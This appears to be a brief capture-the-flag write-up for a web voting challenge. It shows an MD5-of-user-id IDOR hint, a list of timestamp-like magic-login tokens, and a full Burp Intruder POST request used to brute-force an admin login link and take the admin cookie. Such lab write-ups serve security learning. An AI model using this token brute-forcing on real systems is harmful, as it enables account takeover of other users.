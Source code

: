 registered. mail didnt come. retry retry retry

mail did come

voted. observed that `your-vote` has md5

also got hint
```
<!-- show the secret win code to admin user (id:1) -->
```

https://voting.challs.cybersecuritychallenge.ro/index.php/dashboard/your-vote/c4ca4238a0b923820dcc509a6f75849b

got email of admin `sqe027adVn@bkmvenjrbhvuerb23.com`

what now?

looked around. observed in burp some `i-am-old` link. tried. magic login link.

```
5ca8763db
5ca875f75
5ca875d3d
5ca876d98
5ca8763ea
5ca876db4
5ca876d78
5ca877288
5ca877aba
5ca8784a5
5ca87d426
5ca87d744
5ca87d759
5ca87d76d
5ca87d7c1
5ca87d775
5ca87d781
5ca87d795
5ca87d7a1
5ca87d7b9
5ca87d7c9
5ca87d02a
5ca87d03b
```

seems bruteforceable.

run burp intruder with
```
nytr0gen.george@gmail.com
sqe027adVn@bkmvenjrbhvuerb23.com
nytr0gen.george@gmail.com
sqe027adVn@bkmvenjrbhvuerb23.com
nytr0gen.george@gmail.com
sqe027adVn@bkmvenjrbhvuerb23.com
nytr0gen.george@gmail.com
sqe027adVn@bkmvenjrbhvuerb23.com
nytr0gen.george@gmail.com
sqe027adVn@bkmvenjrbhvuerb23.com
nytr0gen.george@gmail.com
sqe027adVn@bkmvenjrbhvuerb23.com
nytr0gen.george@gmail.com
sqe027adVn@bkmvenjrbhvuerb23.com
nytr0gen.george@gmail.com
sqe027adVn@bkmvenjrbhvuerb23.com
nytr0gen.george@gmail.com
sqe027adVn@bkmvenjrbhvuerb23.com
nytr0gen.george@gmail.com
sqe027adVn@bkmvenjrbhvuerb23.com
nytr0gen.george@gmail.com
sqe027adVn@bkmvenjrbhvuerb23.com
nytr0gen.george@gmail.com
sqe027adVn@bkmvenjrbhvuerb23.com
```

against
```
POST /index.php/old-request HTTP/1.1
Host: voting.challs.cybersecuritychallenge.ro
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://voting.challs.cybersecuritychallenge.ro/index.php/i-am-old
Content-Type: application/x-www-form-urlencoded
Content-Length: 69
DNT: 1
Connection: close

_token=xqECJlt3eF6feIQMbvOVaglQHs8FZJxjo3Izlcfo&email=§nytr0gen.george%40gmail.com§
```

got two close ids. bruteforce between them. got cookie for admin. see picture
